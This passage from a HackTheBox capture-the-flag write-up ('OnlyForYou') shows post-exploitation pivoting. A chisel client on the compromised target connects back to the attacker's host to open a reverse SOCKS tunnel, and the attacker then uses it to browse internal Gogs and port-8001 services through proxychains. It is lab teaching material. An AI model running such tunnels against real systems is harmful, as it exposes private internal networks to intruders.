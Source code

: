 Execute `chisel client` on the target machine to establish a reverse proxy:
```console
www-data@only4you:/tmp$ ./chisel client 10.10.14.20:8888 R:socks  &
```

And we establish the connection to the `chisel` server:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ./chisel server -p 8888 --reverse -v
2023/07/18 00:21:21 server: Reverse tunnelling enabled
2023/07/18 00:21:21 server: Fingerprint KI+Jc/QbX6frdPATmnrIB7FseJ1r55Z66im8d2SiEII=
2023/07/18 00:21:21 server: Listening on http://0.0.0.0:8888
2023/07/18 00:24:03 server: session#1: Handshaking with 10.10.11.210:55560...
2023/07/18 00:24:04 server: session#1: Verifying configuration
2023/07/18 00:24:04 server: session#1: tun: Created (SOCKS enabled)
2023/07/18 00:24:04 server: session#1: tun: proxy#R:1080=>localhost:1080: Listening
2023/07/18 00:24:04 server: session#1: tun: Bound proxies
2023/07/18 00:24:04 server: session#1: tun: SSH connected
```

Now, we can utilize `firefox` with `proxychains` to browse the target machine's local ports (`socks5 127.0.0.1 1080`).

Upon browsing to http://127.0.0.1:3000/, we are presented with the following page:

![gogs.JPG](images/gogs.JPG)

Furthermore, by accessing http://127.0.0.1:8001/, we are greeted with the following page:

![8001.JPG](images/8001.JPG)
